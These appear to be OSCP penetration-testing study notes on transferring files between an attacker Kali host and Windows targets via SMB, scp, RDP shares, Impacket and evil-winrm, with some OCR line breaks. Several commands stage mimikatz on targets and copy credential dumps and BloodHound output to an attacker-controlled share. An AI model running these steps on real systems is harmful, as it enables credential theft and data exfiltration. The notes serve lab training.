 ##SMB File Transfer 
kali>impacket-smbserver test . -smb2support  -username ashok -password reddy </br>
WIN>net use m: \\192.168.45.242\home\kali\Desktop\HTB\OSCP\AD\beyond /user:kourosh kourosh </br>
WIN>copy 20240715135750_BloodHound.zip m:\ </br>

 0) SSH

```bash
kali>sudo service ssh start (Transfer file windows to kali)
```

```bash
WIN>scp file kali@192.168.45.208:/home/kali/Desktop/HTB/OSCP(Windows)
```



OSCP Note - https://discord.com/channels/780824470113615893/1148907181480104028
Youtube - https://www.youtube.com/watch?v=kd0sZWI6Blc
1) SMB: 
On Kali:
```bash
impacket-smbserver test . -smb2support  -username ashok -password reddy
```
On Windows:
```powershell
net use m: \\Kali_IP\test /user:ashok kourosh
copy mimikatz.log m:\
```
2) RDP mounting shared folder:
- Using xfreerdp:
On Kali:
```bash
xfreerdp /cert-ignore /compression /auto-reconnect /u:
offsec /p:lab /v:192.168.212.250 /w:1600 /h:800 /drive:test,/home/kali/Documents/pen-
200
```
On windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
- Using rdesktop:
On Kali: 
```bash
rdesktop -z -P -x m -u offsec -p lab 192.168.212.250 -r disk:test=/home/kali/Documents/pen-200
```
On Windows:
```powershell
copy mimikatz.log \\tsclient\test\mimikatz.log
```
3) Impacket tools:
psexec and wmiexec are shipped with built in feature for file transfer.
**Note**: By default whether you upload (lput) or download (lget) a file, it'll be writte in `C:\Windows` path.
Uploading mimikatz.exe to the target machine:
```bash
C:\Windows\system32> lput mimikatz.exe
[*] Uploading mimikatz.exe to ADMIN$\/
C:\Windows\system32> cd C:\windows
C:\Windows> dir /b mimikatz.exe
mimikatz.exe
```
Downloading mimikatz.log:
```bash
C:\Windows> lget mimikatz.log
[*] Downloading ADMIN$\mimikatz.log
```
4) Evil-winrm:
- Uploading files:
```bash
upload mimikatz.exe C:\windows\tasks\mimikatz.exe
```
- Downloading files:
```bash
download mimikatz.log /home/kali/Documents/pen-200
```
5) C2 frameworks:
Almost any of the C2 frameworks such as Metasploit are shipped with downloading and uploading functionality.

6) In FTP, binaries in ASCII mode will make the file not executable. Set the mode to binary.

Additional Resources:
File Transfer:  https://www.youtube.com/watch?v=kd0sZWI6Blc
PEN-100: https://portal.offsec.com/learning-paths/network-penetration-testing-essentials-pen-100/books-and-videos/modal/modules/file-transfers

Happy hacking!
